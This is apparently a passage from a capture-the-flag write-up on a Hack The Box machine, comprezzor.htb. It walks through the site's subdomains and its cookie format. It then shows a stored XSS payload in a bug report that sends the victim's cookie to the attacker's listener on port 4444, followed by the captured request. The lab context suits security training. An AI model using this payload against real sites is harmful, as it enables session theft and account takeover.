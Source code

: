 There are 3 subdomains (dashboard,auth,report)

## shell as dev_acc
---
When you navigate within `comprezzor.htb`, You will find the function of the site is comperssion of text (txt), PDF (pdf), and Word (docx) files uploaded by you using the LZMA algorithm.

i searched for LZMA algorithm CVE, but i could't find.
Let's continue.

We have 3 subdomains:
- dashboard : accessable by admin only
When you visit it with no admin credentials you will get forwarded to `auth` subdomain
- auth : login and register page
when i create accounts i notice user data cookie in b64
user data cookie in plain
{"user_id": 6, "username": "youssif", "role": "user"}|3dd219ed9ef9ae06cd1fc02198c330abc769ee67294c918ff7a85dcd4710e1e4
{"user_id": 8, "username": "test", "role": "user"}|16265245f0ee972ac081d3ea812f4a36eb48feac79fd4e2d4d3b682c60fcf57b
I couldn't make use of the cookie in this state, but there's an important note:
The user_id is 6 and 8 etc..., this makes us wonder who has user_id = 1 (we all think it's admin and it's our goal)

after logging in also we found us got forwarded to `report` subdomain
- report : report bug functionality
And we have also option to see what happens when we report bug

    - Every reported bug is carefully reviewed by our skilled developers.
    - If a bug requires further attention, it will be escalated to our administrators for resolution.
    - We value your feedback and continuously work to improve our system based on your bug reports.


Reviewing every bug by skilled developer making us to think about `XSS`, we can try making the report to be xss malicious script to steal the cookie.

I set up listener on port 4444 and made the report title and desciption to be `<script>var i=new Image(); i.src="http://10.10.16.12:4444/?cookie="+btoa(document.cookie);</script>`

After submission i received this on the listener
```bash
┌──(youssif㉿youssif)-[~/Desktop/HTBMachines/intuition]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.16.12] from (UNKNOWN) [10.10.11.15] 48508
GET /?cookie=dXNlcl9kYXRhPWV5SjFjMlZ5WDJsa0lqb2dNaXdnSW5WelpYSnVZVzFsSWpvZ0ltRmtZVzBpTENBaWNtOXNaU0k2SUNKM1pXSmtaWFlpZlh3MU9HWTJaamN5TlRNek9XTmxNMlkyT1dRNE5UVXlZVEV3TmprMlpHUmxZbUkyT0dJeVlqVTNaREpsTlRJell6QTRZbVJsT0RZNFpETmhOelUyWkdJNA== HTTP/1.1
Host: 10.10.16.12:4444
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: image/avif,image/webp,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://dashboard.comprezzor.htb/
Connection: keep-alive
```
